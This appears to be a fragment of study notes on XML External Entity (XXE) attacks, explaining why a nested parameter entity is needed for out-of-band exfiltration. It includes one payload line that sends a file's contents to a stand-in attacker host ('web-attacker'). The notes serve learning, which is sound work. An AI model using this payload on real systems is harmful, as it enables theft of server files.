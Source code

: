![Untitled](XXE%20e4979216a484461395b9d737f77ba690/Untitled%202.png)

2 . **Why need to nested entity in order to use %file; parameter ?**

Because, parameter entity does not use inside `External Entity` , but inside `Internal Entity` have work.

`<!ENTITY % container "<!ENTITY &#x25; extract SYSTEM 'http://web-attacker?data=%file;'> ">`

![Untitled](XXE%20e4979216a484461395b9d737f77ba690/Untitled%203.png)
